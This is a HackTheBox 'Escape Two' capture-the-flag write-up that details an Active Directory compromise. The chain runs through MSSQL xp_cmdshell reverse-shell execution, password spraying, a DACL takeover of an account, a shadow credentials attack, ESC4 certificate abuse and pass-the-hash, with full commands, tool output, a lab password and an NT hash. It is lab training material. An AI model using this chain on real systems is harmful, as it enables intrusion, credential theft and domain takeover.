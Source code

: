 ```yaml
---
title: HTB Escape Two - Writeup
description: Easy Windows Machine
date: 2025-03-10
image: cover.png
categories:
  - Writeups
tags:
  - HTB
  - Easy
  - Windows
---
```


### Enumeration
Let's start with a scan to all ports:
```sh
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.51 -oG allPorts
```
![Image 1](1.png)

once it's finished, grep the ports and copy them to later scan them with nmap looking out for the versions of the services hosted.
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
![Image 2](2.png)

Add the domains from the scan to your /etc/hosts file
```sh
10.10.11.51     DC01.sequel.htb sequel.htb
```

Well, taking a look at smb with smbclient using the credentials that HackTheBox gives us we can see the share names for this domain
```sh
smbclient -L 10.10.11.51 -U 'rose'
```
![Image 3](3.png)

There's a share called Accounting Department, list the contents of it

```sh
smbclient //10.10.11.51/Accounting\ Department -U 'rose'
```
we can download the files hosted there
```sh
get accounts.xlsx
get accounting_2024.xlsx
```
![Image 4](4.png)

You can see the contents of the accounts.xlsx file with https://jumpshare.com/viewer/xlsx

![Image 6](6.png)


### User Flag

```sh
netexec mssql 10.10.11.51 -u sa -p <password> --local-auth -M mssql_priv
```
Now we've found another user (sa) to continue enumerating 

![Image 8](8.png)

It's a sysadmin, so we can get a reverse shell with xp_cmdshell in mssql, login to it using impacket mssqlclient

```sh
mssqlclient.py sa@10.10.11.51
```

Enable xp_cmdshell with:
```
sp_configure 'show advanced options', 1;
RECONFIGURE;

sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

```
Now execute the powershell reverse shell encoded in base64 with this, you can use https://www.revshells.com/:
```
EXEC xp_cmdshell 'powershell -e [base64ReverseShell]'
```
![Reverse Shell](9.png)

Let's start enumerating this machine, we can see a SQL2019 folder

![Contents of C folder](10.png)

there's a file with credentials in ExpressAdv_ENU

```sh
cat sql-Configuration.INI
```
Create a list with all the users and passwords you've found to do a password spraying attack and find any reused passwords

```sh
netexec smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```
![Reused password](11.png)

ryan and sql_svc have the same password, so we can login to ryan using evilwinrm

```sh
evil-winrm -i 10.10.11.51 -u ryan -p <password>
```
Now you can get the user flag
![User Flag](12.png)

### Root Flag
Using Bloodhound community edition we can find a path to Administrator using the credentials of ryan

![Write Owner](19.png)

Set the owner of the ca_svc account to ryan

```sh
impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

```

Grant Full Control Rights to ryan using DACL (Discretionary Access Control List) to escalate privileges

```sh
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
[*] DACL backed up to dacledit-20250330-161623.bak
[*] DACL modified successfully!

```

Shadow Credentials attack
```sh
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ed99220f-857c-1616-06bc-e50d6900d173'
[*] Adding Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

```

Find a vulnerable template with the hash of the ca_svc account
```sh
certipy-ad find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vulnerable
```
![Vulnerable Cert](16.png)

Now upload the certificate template
```sh
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```
![Cert Uploaded](17.png)

Get the Admin Cert
```sh
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```
Now get the admin hash using the cert
```sh
certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': xxxxxx:xxxx
```

Login as Admin and you got the root flag
```sh
evil-winrm -i 10.10.11.51 -u "administrator" -H "xxxxxxx"
```

![Admin Flag](18.png)
### Conclusion 
This machine covers topics like SMB shares leaks, MSSQL RCE, ESC4 Certificate Attack, Shadow Credentials Attack, weak ACLs and AD CS misconfigurations

<mark>Hope you enjoy it and Happy Hacking!</mark>

